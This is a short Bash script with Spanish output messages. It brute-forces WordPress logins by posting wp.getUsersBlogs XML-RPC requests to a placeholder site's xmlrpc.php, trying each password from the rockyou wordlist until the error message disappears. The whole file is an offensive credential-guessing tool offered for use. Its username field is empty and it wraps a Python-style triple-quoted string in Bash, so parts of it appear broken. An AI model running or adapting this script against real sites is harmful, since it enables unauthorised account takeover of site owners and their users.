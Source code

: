 #!/bin/bash

function ctrl_c(){ 
    echo -e "\n\n[!] Saliendo...\n"
    exit 1
}


# Ctrl+C
trap ctrl_c SIGINT


function createXML(){  
    password=$1
    xmlfile="""
<?xml version=\"1.0\" encoding=\"UTF-8\"?>
<methodCall>    
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value></value></param> 
<param><value>$password</value></param> 
</params> 
</methodCall>"""


    echo $xmlfile > file.xml

    response=$(curl -s -X POST "https://ejemplo.com:80/xmlrpc.php" -d@file.xml)

    if [ ! "$(echo $response | grep 'Incorrect username or password.')" ]; then 
    echo -e "\n[+] La contraseña para el usuario es $password"
    exit 0
    fi
}


cat /usr/share/wordlists/rockyou.txt | while read password; do
    createXML $password
done
